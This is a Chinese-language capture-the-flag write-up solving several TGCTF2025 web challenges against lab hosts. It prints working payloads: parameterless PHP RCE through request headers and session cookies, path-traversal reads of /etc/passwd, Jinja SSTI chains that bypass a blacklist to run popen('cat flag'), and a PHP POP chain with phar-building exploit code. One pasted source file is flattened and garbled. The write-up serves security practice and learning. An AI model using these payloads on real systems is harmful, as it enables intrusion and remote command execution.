---
title: "TGCTF2025"
date: 2025-04-16T19:46:51+08:00
summary: "TGCTF2025"
url: "/posts/TGCTF2025/"
categories:
  - "赛题wp"
tags:
  - "TGCTF2025"
draft: false
---

# AAA偷渡阴平

## #请求头无参数RCE

```php
<?php


$tgctf2025=$_GET['tgctf2025'];

if(!preg_match("/0|1|[3-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $tgctf2025)){
    //hint：你可以对着键盘一个一个看，然后在没过滤的符号上用记号笔画一下（bushi
    eval($tgctf2025);
}
else{
    die('(╯‵□′)╯炸弹！•••*～●');
}

highlight_file(__FILE__);
```

无参数RCE

先看看能不能查看当前目录

```
?tgctf2025=var_dump(current(localeconv()));//返回小数点
?tgctf2025=var_dump(scandir(current(localeconv()));//返回当前目录
?tgctf2025=var_dump(scandir(next(scandir(current(localeconv())))));//返回上级目录
```

测出来flag在根目录，但是好像访问不了

```
?tgctf2025=print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));//查看根目录文件名
?tgctf2025=highlight_file(array_rand(array_flip(scandir(chr(ord(strrev(crypt(serialize(array())))))))));
```



换成用请求头去做吧，设置一个Leno请求头在第一位，然后我们使用getallheaders函数并打印出请求头



可以看到设置的请求头在第一位，然后用pos取出第一位并在该请求头写入eval执行的代码就行





# **AAA偷渡阴平（复仇）**

## #session无参数RCE

```php
<?php


$tgctf2025=$_GET['tgctf2025'];

if(!preg_match("/0|1|[3-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\|localeconv|pos|current|print|var|dump|getallheaders|get|defined|str|split|spl|autoload|extensions|eval|phpversion|floor|sqrt|tan|cosh|sinh|ceil|chr|dir|getcwd|getallheaders|end|next|prev|reset|each|pos|current|array|reverse|pop|rand|flip|flip|rand|content|echo|readfile|highlight|show|source|file|assert/i", $tgctf2025)){
    //hint：你可以对着键盘一个一个看，然后在没过滤的符号上用记号笔画一下（bushi
    eval($tgctf2025);
}
else{
    die('(╯‵□′)╯炸弹！•••*～●');
}

highlight_file(__FILE__);
```

其实禁用了这么多，就是把常规的读文件和请求头RCE给禁用了，但是这里session去打无参数RCE是没禁用的，但是其实这里有点复杂，eval函数等一些关键函数都被禁用了，但是我们根据eval函数的特性，可以用分号传入多条语句

```php
<?php
$a = 'echo 1;echo 2;';
eval($a);
//12
```

所以我们传入

```
?tgctf2025=session_start();system(session_id());
```

然后设置cookie

```
Cookie: PHPSESSID=whoami;
```

页面成功返回执行结果，但是在 HTTP Cookie 中，`PHPSESSID`（或其他 Cookie 值）**不能包含空格**，因为空格在 Cookie 规范中属于**非法字符**，可能导致解析错误，所以ls /是不行的，尝试换成编码，可以用16进制



需要注意的是并非所有编码都是可以的

Cookie 的名称（Name）和值（Value）只能包含以下字符：

```
复制字母（A-Za-z）、数字（0-9）、连字符（-）、下划线（_）、点（.）
```

**空格、分号（;）、逗号（,）、等号（=）等字符是明确禁止的**，因为它们用于分隔 Cookie 字段（如 `Cookie: name=value; name2=value2`）。

# 火眼辩魑魅

## #一句话木马


没啥信息，先扫一下目录吧

```
[09:55:38] Scanning:
[09:55:54] 301 -   162B - /css  ->  http://node1.tgctf.woooo.tech/css/
[09:55:58] 200 -   725B - /index.php
[09:56:04] 200 -   148B - /robots.txt
[09:56:08] 301 -   162B - /uploads  ->  http://node1.tgctf.woooo.tech/uploads/
[09:56:08] 403 -   548B - /uploads/
```

访问/robots.txt



简单看了一圈之后发现第二个就是一句话


我一开始真以为要一个个测来着，现在蚁剑直接连就行

# 直面天命

## #任意文件读取

源代码有个hint，提示有个路由是四个小写字母组成的，写了个生成字典的脚本

```python
import itertools
with open('4letters.txt', 'w') as f:
    for combo in itertools.product('abcdefghijklmnopqrstuvwxyz', repeat=4):
        f.write(''.join(combo) + '\n')
```

爆出来是aazz，访问拿到路由




参数未知，用Arjun工具探测一下或者用参数名字典爆破一下



估计是任意文件读取

```
?filename=../../../etc/passwd
```

成功返回信息，然后看版本是Werkzeug/3.0.6 Python/3.8.1，估计又有什么app.py

刚好昨天做了商丘的一道题，语言和环境很像，直接读都行

```
?filename=../../app.py
```



```python
import os import string from flask import Flask, request, render_template_string, jsonify, send_from_directory 
from a.b.c.d.secret 
import secret_key 
app = Flask(__name__)
black_list=['{','}','popen','os','import','eval','_','system','read','base','globals'] 
def waf(name): 
    for x in black_list: 
        if x in name.lower(): 
            return True return False def is_typable(char): # 定义可通过标准 QWERTY 键盘输入的字符集 typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace return char in typable_chars @app.route('/') def home(): return send_from_directory('static', 'index.html') @app.route('/jingu', methods=['POST']) def greet(): template1="" template2="" name = request.form.get('name') template = f'{name}' if waf(name): template = '想干坏事了是吧hacker？哼，还天命人，可笑，可悲，可叹
            else: k=0 
            for i in name: 
                if is_typable(i): 
                    continue k=1 
                    break 
                    if k==1: 
                        if not (secret_key[:2] in name and secret_key[2:]): 
                            template = '连“六根”都凑不齐，谈什么天命不天命的，还是戴上这金箍吧再去西行历练历练
                            return render_template_string(template) template1 = "“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”
                        最后，如果你用了cat，就可以见到齐天大圣了
                        template= template.replace("直面","{{").replace("天命","}}") template = template if "cat" in template: template2 = '
或许你这只叫天命人的猴子，真的能做到？

Image' try: return template1+render_template_string(template)+render_template_string(template2) except Exception as e: error_message = f"500报错了，查询语句如下：
{template}" return error_message, 400 @app.route('/hint', methods=['GET']) def hinter(): template="hint：
有一个由4个小写英文字母组成的路由，去那里看看吧，天命人!" return render_template_string(template) @app.route('/aazz', methods=['GET']) def finder(): filename = request.args.get('filename', '') if filename == "": return send_from_directory('static', 'file.html') if not filename.replace('_', '').isalnum(): content = jsonify({'error': '只允许字母和数字！'}), 400 if os.path.isfile(filename): try: with open(filename, 'r') as file: content = file.read() return content except Exception as e: return jsonify({'error': str(e)}), 500 else: return jsonify({'error': '路径不存在或者路径非法'}), 404 if __name__ == '__main__': app.run(host='0.0.0.0', port=80)
```

让ai梳理了一下

## #ssti

```python
import os
import string
from flask import Flask, request, render_template_string, jsonify, send_from_directory
from a.b.c.d.secret import secret_key

app = Flask(__name__)
black_list = ['{', '}', 'popen', 'os', 'import', 'eval', '_', 'system', 'read', 'base', 'globals']

def waf(name):
    for x in black_list:
        if x in name.lower():
            return True
    return False

def is_typable(char):
    typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace
    return char in typable_chars

@app.route('/')
def home():
    return send_from_directory('static', 'index.html')

@app.route('/jingu', methods=['POST'])
def greet():
    template1 = ""
    template2 = ""
    name = request.form.get('name')
    template = f'{name}'

    if waf(name):
        template = '想干坏事了是吧hacker？哼，还天命人，可笑，可悲，可叹\nImage'
    else:
        k = 0
        for i in name:
            if is_typable(i):#检测是不是可打印字符
                continue
            k = 1
            break

        if k == 1:#如果不是可打印字符
            if not (secret_key[:2] in name and secret_key[2:]):
                template = '连“六根”都凑不齐，谈什么天命不天命的，还是戴上这金箍吧\n\n再去西行历练历练\nImage'
            return render_template_string(template)

    template1 = "“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”\n最后，如果你用了cat，就可以见到齐天大圣了\n"
    template = template.replace("直面", "{{").replace("天命", "}}")

    if "cat" in template:
        template2 = '\n或许你这只叫天命人的猴子，真的能做到？\nImage'

    try:
        return template1 + render_template_string(template) + render_template_string(template2)
    except Exception as e:
        error_message = f"500报错了，查询语句如下：\n{template}"
        return error_message, 400

@app.route('/hint', methods=['GET'])
def hinter():
    template = "hint：\n有一个由4个小写英文字母组成的路由，去那里看看吧，天命人!"
    return render_template_string(template)

@app.route('/aazz', methods=['GET'])
def finder():
    filename = request.args.get('filename', '')
    if filename == "":
        return send_from_directory('static', 'file.html')

    if not filename.replace('_', '').isalnum():
        return jsonify({'error': '只允许字母和数字！'}), 400

    if os.path.isfile(filename):
        try:
            with open(filename, 'r') as file:
                content = file.read()
            return content
        except Exception as e:
            return jsonify({'error': str(e)}), 500
    else:
        return jsonify({'error': '路径不存在或者路径非法'}), 404

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

这里会将直面天命换成`{{}}`，所以我们传入

```
直面8*8天命
```

返回64

先看看is_typable的要求，输出合规的字符

```python
import string
def is_typable(char):
    typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace
    return char in typable_chars
if "__main__" == __name__:
    letters = ""
    for i in range(1,1000):
        if is_typable(chr(i)):
            letters += chr(i)+" "
    print(letters)
#   ! " # $ % & ' ( ) * + , - . / 0 1 2 3 4 5 6 7 8 9 : ; < = > ? @ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z [ \ ] ^ _ ` a b c d e f g h i j k l m n o p q r s t u v w x y z { | } ~
```

再结合黑名单

```
black_list = ['{', '}', 'popen', 'os', 'import', 'eval', '_', 'system', 'read', 'base', 'globals']
```

直接旁路注入就行，把内容外带

```
POST：name=直面""[request.args.a][request.args.b][request.args.c]()[132][request.args.d][request.args.e][request.args.f](request.args.g)[request.args.h]()天命
GET：/jingu?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__&f=popen&g=cat flag&h=read
```



# **直面天命（复仇）**

也是有一个hint，不过这里直接给了路由aazz，访问后直接拿到源码

```python
import os
import string
from flask import Flask, request, render_template_string, jsonify, send_from_directory
from a.b.c.d.secret import secret_key

app = Flask(__name__)

black_list=['lipsum','|','%','{','}','map','chr', 'value', 'get', "url", 'pop','include','popen','os','import','eval','_','system','read','base','globals','_.','set','application','getitem','request', '+', 'init', 'arg', 'config', 'app', 'self']
def waf(name):
    for x in black_list:
        if x in name.lower():
            return True
    return False
def is_typable(char):
    # 定义可通过标准 QWERTY 键盘输入的字符集
    typable_chars = string.ascii_letters + string.digits + string.punctuation + string.whitespace
    return char in typable_chars

@app.route('/')
def home():
    return send_from_directory('static', 'index.html')

@app.route('/jingu', methods=['POST'])
def greet():
    template1=""
    template2=""
    name = request.form.get('name')
    template = f'{name}'
    if waf(name):
        template = '想干坏事了是吧hacker？哼，还天命人，可笑，可悲，可叹
Image'
    else:
        k=0
        for i in name:
            if is_typable(i):
                continue
            k=1
            break
        if k==1:
            if not (secret_key[:2] in name and secret_key[2:]):
                template = '连“六根”都凑不齐，谈什么天命不天命的，还是戴上这金箍吧

再去西行历练历练

Image'
                return render_template_string(template)
            template1 = "“六根”也凑齐了，你已经可以直面天命了！我帮你把“secret_key”替换为了“{{}}”
最后，如果你用了cat，就可以见到齐天大圣了
"
            template= template.replace("天命","{{").replace("难违","}}")
            template = template
    if "cat" in template:
        template2 = '
或许你这只叫天命人的猴子，真的能做到？

Image'
    try:
        return template1+render_template_string(template)+render_template_string(template2)
    except Exception as e:
        error_message = f"500报错了，查询语句如下：
{template}"
        return error_message, 400

@app.route('/hint', methods=['GET'])
def hinter():
    template="hint：
有一个aazz路由，去那里看看吧，天命人!"
    return render_template_string(template)

@app.route('/aazz', methods=['GET'])
def finder():
    with open(__file__, 'r') as f:
        source_code = f.read()
    return f"
{source_code}
", 200, {'Content-Type': 'text/html; charset=utf-8'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

这次不一样，得传入天命难违才能替换成`{{}}`

```
天命8*8难违//返回64
```

不过之前旁路注入的方法被过滤了，下滑线也被过滤了，尝试用编码绕过，可以用16进制编码也可以用unicode编码

我这里用unicode编码

```
天命""['\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f']['\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f']['\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f']()[132]['\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f']['\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f']['\u0070\u006f\u0070\u0065\u006e']('cat tgffff11111aaaagggggggg')['\u0072\u0065\u0061\u0064']()难违
```

# 什么文件上传？

## #phar反序列化

源码提示机器人，访问一下robots.txt拿到信息



有class.php,同时提示文件上传后缀是三个小写字母

同时扫目录

```
[23:23:46] Scanning:
[23:24:01] 403 -   548B - /assets/
[23:24:01] 301 -   162B - /assets  ->  http://node2.tgctf.woooo.tech/assets/
[23:24:04] 301 -   162B - /css  ->  http://node2.tgctf.woooo.tech/css/
[23:24:09] 200 -    1KB - /index.php
[23:24:17] 200 -   239B - /robots.txt
[23:24:21] 200 -     0B - /upload.php
[23:24:21] 301 -   162B - /uploads  ->  http://node2.tgctf.woooo.tech/uploads/
[23:24:21] 403 -   548B - /uploads/
```

有文件上传的地方，然后还有反序列化，第一个想到的就是phar反序列化了

访问/class.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    function best64_decode($str)
    {
        return base64_decode(base64_decode(base64_decode(base64_decode(base64_decode($str)))));
    }
    class yesterday {
        public $learn;
        public $study="study";
        public $try;
        public function __construct()
        {
            $this->learn = "learn<br>";
        }
        public function __destruct()
        {
            echo "You studied hard yesterday.<br>";
            return $this->study->hard();
        }
    }
    class today {
        public $doing;
        public $did;
        public $done;
        public function __construct(){
            $this->did = "What you did makes you outstanding.<br>";
        }
        public function __call($arg1, $arg2)
        {
            $this->done = "And what you've done has given you a choice.<br>";
            echo $this->done;
            if(md5(md5($this->doing))==666){
                return $this->doing();
            }
            else{
                return $this->doing->better;
            }
        }
    }
    class tommoraw {
        public $good;
        public $bad;
        public $soso;
        public function __invoke(){
            $this->good="You'll be good tommoraw!<br>";
            echo $this->good;
        }
        public function __get($arg1){
            $this->bad="You'll be bad tommoraw!<br>";
        }

    }
    class future{
        private $impossible="How can you get here?<br>";
        private $out;
        private $no;
        public $useful1;public $useful2;public $useful3;public $useful4;public $useful5;public $useful6;public $useful7;public $useful8;public $useful9;public $useful10;public $useful11;public $useful12;public $useful13;public $useful14;public $useful15;public $useful16;public $useful17;public $useful18;public $useful19;public $useful20;

        public function __set($arg1, $arg2) {
            if ($this->out->useful7) {
                echo "Seven is my lucky number<br>";
                system('whoami');
            }
        }
        public function __toString(){
            echo "This is your future.<br>";
            system($_POST["wow"]);
            return "win";
        }
        public function __destruct(){
            $this->no = "no";
            return $this->no;
        }
    }
    if (file_exists($_GET['filename'])){
        echo "Focus on the previous step!<br>";
    }
    else{
        $data=substr($_GET['filename'],0,-4);
        unserialize(best64_decode($data));
    }
    // You learn yesterday, you choose today, can you get to your future?
?>
```

反序列化，看看危险函数，在`future::__toString()`中有system函数和可控参数wow，那就把链子推一下

```
yesterday::__destruct()->today::__call()->future::__toString()
```

那我们写一下exp

```php
<?php
//yesterday::__destruct()->today::__call()->future::__toString()
class yesterday{
    public $learn;
    public $study="study";
    public $try;
}
class today{
    public $doing;
    public $did;
    public $done;
}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
}
$a = new yesterday();
$a -> study = new today();
$a -> study -> doing = new future();
echo serialize($a);
```

然后加上生成phar文件的代码

```php
<?php
//yesterday::__destruct()->today::__call()->future::__toString()
class yesterday{
    public $learn;
    public $study="study";
    public $try;
}
class today{
    public $doing;
    public $did;
    public $done;
}
class future{
    private $impossible="How can you get here?<br>";
    private $out;
    private $no;
}
$a = new yesterday();
$a -> study = new today();
$a -> study -> doing = new future();
echo serialize($a);
$phar = new Phar("phar.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER(); ?>");
$phar -> setMetadata($a);
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
```

然后我们需要解决第二个问题，就是什么后缀名能上传成功，先写个生成随机三个小写字母的脚本

```
import random
import string

def generate_random_letters(length=3):
    """生成指定长度的随机小写字母字符串"""
    return ''.join(random.choice(string.ascii_lowercase) for _ in range(length))

# 生成随机字母
random_letters = generate_random_letters()

# 写入文本文件
with open('random_letters.txt', 'w', encoding='utf-8') as file:
    file.write(random_letters)

print(f"已生成随机字母: {random_letters} 并保存到 random_letters.txt")
```

直接bp进行fuzz吧

